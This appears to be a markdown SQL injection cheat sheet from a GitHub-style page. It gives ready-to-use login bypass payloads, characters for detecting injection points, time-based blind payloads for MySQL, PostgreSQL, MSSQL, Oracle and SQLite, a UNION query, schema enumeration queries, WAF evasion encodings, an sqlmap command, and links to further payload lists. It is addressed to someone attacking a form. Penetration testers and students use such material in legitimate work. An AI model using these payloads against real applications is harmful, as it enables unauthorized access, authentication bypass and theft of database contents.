 # SQL Injection

>An SQL injection is a security flaw that allows attackers to interfere with database queries of an application. This vulnerability can enable attackers to view, modify, or delete data they shouldn't access, including information of other users or any data the application can access. Such actions may result in permanent changes to the application's functionality or content or even compromision of the server or denial of service.

### MYSQL Conditional Statement
```sql
IF(condition,true-part,false-part) (M) 
SELECT IF(1=1,'true','false')
```

### Login Bypass payloads

This is SQL injection 101—here are some typical login tricks that you can use with form fields and parameters:

```sql
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```
### Entry point detection
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```
### Confirming with timing
```sql
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```


## Union Based Attacks
 When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

 ```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
## Testing with SQLMap
```bash
sqlmap -u <url> --foorms
```

## Finding Database structure in mysql

### Finding table name
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'
```
### Finding column name
```sql
SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'
```

## Bypassing WAFs
```
0/**/or/**/1 => or 1=1
SEL/**/ECT => SELECT
%2553%2545%254c%2545%2543%2554 => select
%53%45%4c%45%43%54 => select
SELSELECTECT => select
%00SELECT => select
```

## Payload links
- [Mysql filter bypassing techniques](https://gist.github.com/cyberheartmi9/b4a4ff0f691be6b5c866450563258e86)
- [SQL Injection Authentication Bypass payloads](https://gist.github.com/spenkk/2cd2f7eeb9cac92dd550855e522c558f)



# References
- [Port Swigger Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [Invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks)


